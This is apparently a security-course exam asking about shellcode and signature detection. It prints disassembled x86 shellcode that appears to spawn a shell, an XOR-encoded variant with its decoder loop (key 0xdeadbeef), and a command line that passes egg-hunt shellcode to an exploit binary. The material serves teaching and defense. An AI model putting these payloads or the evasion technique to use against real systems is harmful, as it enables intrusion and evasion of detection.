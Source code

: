 \documentclass{article}[9pt]
\begin{document}
\begin{enumerate}
\item (5 points) Does the shell code below match either (or both) of the signature schemes from the previous questions? 

\begin{verbatim}
8048060: 68 80 90 90 90  push 0x90909080
8048065: 68 e3 b0 0b cd  push 0xcd0bb0e3
804806a: 68 2f 62 69 89  push 0x8969622f
804806f: 68 73 68 68 2f  push 0x2f686873
8048074: 68 50 68 6e 2f  push 0x2f6e6850
8048079: 68 31 c9 f7 e1  push 0xe1f7c931
804807e: ff d4           call esp
\end{verbatim}

\item (5 points) What is polymorphic shell code? How does it relate to the shortcomins of the signature matching scheme from before?

\item (5 points) What is decode shell code? Would decoder shell code be immune from signature matching schemes?

\item Consider the following decode based shell code

\begin{verbatim}
8048060: 68 6f 2e 3d 4e     push 0x4e3d2e6f
8048065: 68 0c 0e a6 13     push 0x13a60e0c
804806a: 68 c0 dc c4 57     push 0x57c4dcc0
804806f: 68 9c d6 c5 f1     push 0xf1c5d69c
8048074: 68 be d6 c3 f1     push 0xf1c3d6be
8048079: 68 de 77 5a 3f     push 0x3f5a77de
804807e: 31 c9              xor ecx,ecx
8048080: 8b 04 0c           mov eax,DWORD PTR [esp+ecx*1]
8048083: 35 ef be ad de     xor eax,0xdeadbeef
8048088: 89 04 0c           mov DWORD PTR [esp+ecx*1],eax
804808b: 80 c1 04           add cl,0x4
804808e: 80 f9 14           cmp cl,0x14
8048091: 7e ed              jle 8048080 <_start+0x20>
8048093: ff e4              jmp esp
\end{verbatim}

\begin{enumerate}
\item (5 points) What is the decode key? Explain how you know this.

\item (5 points) Why is the comparison (\texttt{cmp}) comapring to 0x14 for loop exit?

\item (5 points) Explain the last instruction's relevance \texttt{jmp esp}.
\end{enumerate}

\item (5 points) In egg-hunt shell code, why should the egg appear twice?

\item (5 points) Why do we use \texttt{access()} system call in egghunt shell code?

\item (5 points) In the example below, why does the shell code being hunted for get loaded into memory?

\begin{verbatim}
./dummy_exploit $(printf $(./hexify.sh egg_hunt)) $(printf $(./hexify.sh huntable_shell))
\end{verbatim}
\end{enumerate}
\end{document}
